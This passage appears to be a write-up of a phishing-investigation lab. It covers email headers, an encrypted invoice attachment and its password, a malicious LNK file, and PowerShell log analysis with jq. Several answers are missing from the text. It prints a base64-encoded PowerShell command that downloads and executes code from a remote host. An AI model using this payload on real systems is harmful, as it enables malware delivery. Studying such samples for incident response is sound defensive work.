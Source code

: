 This will be useful for analyzing the attachment for later.




What is the email address used to send the phishing email?


Opening the email via Thunderbird allows us to get a better look at the header of the email. This tells us that the email is

What is the email address of the victim?Top of Form

Likewise, we see that the email address of the victim is

What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?

This one is simple; we just need to scroll down a bit to view both tags.


What is the name of the file inside the encrypted attachment?Top of Form

This was found with the set up we did earlier. After extracting the Invoice.zip file the result is Invoice_20230103.lnk

What is the password of the encrypted attachment?Top of Form

The password is in the email: Invoice2023!

Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

Scrolling through the results of lnkparse shows us that there were command line arguments containing some encoded payload: aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==

Task 3 Endpoint Security – Are you sure that’s an Invoice?

Based on the initial findings, we discovered how the malicious attachment compromised Julianne's workstation:

A PowerShell command was executed.

Decoding the payload reveals the starting point of endpoint activities.

Investigation Guide

With the following discoveries, we should now proceed with analysing the PowerShell logs to uncover the potential impact of the attack:

Using the previous findings, we can start our analysis by searching the execution of the initial payload in the PowerShell logs.

Since the given data is JSON, we can parse it in CLI using the jq command.

Note that some logs are redundant and do not contain any critical information; hence can be ignored.

JQ Cheatsheet

﻿jq is a lightweight and flexible command-line JSON processor. This tool can be used in conjunction with other text-processing commands.
